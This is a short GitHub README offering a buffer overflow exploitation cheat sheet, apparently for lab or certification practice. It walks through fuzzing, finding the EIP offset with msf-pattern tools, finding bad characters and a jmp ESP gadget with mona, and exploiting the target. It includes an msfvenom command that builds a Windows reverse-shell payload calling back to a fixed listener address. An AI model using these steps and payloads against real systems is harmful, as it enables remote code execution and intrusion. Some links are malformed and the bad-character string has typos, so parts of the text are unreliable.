 #  Buffer Overflow Cheat Sheet

1. Connecting to vulnerable app
```nc <ip> <port> ```
2. Fuzzing
([Fuzzer.py]https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/fuzzer.py))

3. Finding EIP
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
``` 
([finding_eip.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/finding-eip.py))

4. Determining bad chars
([bad_chars.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/bad_chars.py))
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
!mona compare -f C:\mona\vulnapp\bytearray.bin -a <ESP_badchar_address>
``` 
5. Finding jmp ESP
```
!mona jmp -r esp -cpb  "\x00\xyz\xxx"
```

6. Generating Shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.238.148 LPORT=443 EXITFUNC=thread -b "\x0\x07\x08\x2f\x2e\xa0\xa10" -f py -v shellcode

```
7. Exploiting
([exploit.py]https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/exploit.py.py))
